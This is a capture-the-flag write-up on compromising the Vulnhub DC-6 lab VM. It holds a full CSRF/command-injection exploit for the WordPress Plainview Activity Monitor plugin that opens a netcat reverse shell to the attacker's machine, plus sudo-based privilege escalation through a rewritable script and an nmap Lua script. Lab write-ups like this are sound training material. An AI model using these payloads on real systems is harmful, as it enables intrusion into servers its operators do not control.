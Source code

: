 ```yaml
---
title:     "Vulnhub - DC 6"
tags: [easy,wordpress,sudo]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/1.png)<br/>
Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:<https://www.vulnhub.com/entry/dc-6,315/>


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/1.png)<br/>
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/3.png)

Now we can bruteforce easily!<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/4.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/5.png)

We got password for mark ``helpdesk01``

## Getting Shell

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/7.png)


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/8.png)

Found ``graham`` password on mark's directory

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> <https://gtfobins.github.io/gtfobins/nmap/>

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/13.png)

We got the ``Flag`` and Root !!
